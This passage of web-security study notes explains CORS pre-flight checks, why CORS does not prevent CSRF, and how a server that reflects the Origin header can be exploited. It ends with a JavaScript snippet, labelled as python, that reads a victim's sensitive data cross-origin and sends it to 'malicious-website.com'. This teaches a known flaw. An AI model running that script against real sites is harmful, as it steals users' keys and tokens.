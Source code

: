* This response sets out the allowed methods (`PUT`, `POST` and `OPTIONS`) and permitted request headers (`Special-Request-Header`)
* In this particular case the cross-domain server also allows the sending of credentials, and the `Access-Control-Max-Age` header defines a maximum timeframe for caching the pre-flight response for reuse
* If the request methods and headers are permitted (as they are in this example) then the browser processes the cross-origin request in the usual way
* Pre-flight checks add an extra HTTP request round-trip to the cross-domain request, so they increase the browsing overhead

#### Does CORS protect against [CSRF](https://portswigger.net/web-security/csrf)?
CORS does not provide protection against [cross-site request forgery](https://portswigger.net/web-security/csrf) (CSRF) attacks, this is a common misconception. CORS is a controlled relaxation of the same-origin policy, so poorly configured CORS may actually increase the possibility of CSRF attacks or exacerbate their impact. There are various ways to perform CSRF attacks without using CORS, including simple HTML forms and cross-domain resource includes.

## Server-generated [ACAO](https://portswigger.net/web-security/cors/access-control-allow-origin) header from client-specified Origin header
* Some applications need to provide access to a number of other domains
* Maintaining a list of allowed domains requires ongoing effort, and any mistakes risk breaking functionality
* So some applications take the easy route of effectively allowing access from any other domain
* One way to do this is by reading the Origin header from requests and including a response header stating that the requesting origin is allowed

```HTTP
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com 
Origin: https://malicious-website.com 
Cookie: sessionid=...
```

```HTTP
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: https://malicious-website.com 
Access-Control-Allow-Credentials: true 
...
```

* These headers state that access is allowed from the requesting domain (`malicious-website.com`) and that the cross-origin requests can include cookies (`Access-Control-Allow-Credentials: true`) and so will be processed in-session
* Because the application reflects arbitrary origins in the `Access-Control-Allow-Origin` header, this means that absolutely any domain can access resources from the vulnerable domain
* If the response contains any sensitive information such as an API key or CSRF token, you could retrieve this by placing the following script on your website

```python
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true; 
req.send(); 
function reqListener() { 
	location='//malicious-website.com/log?key='+this.responseText; 
};
```
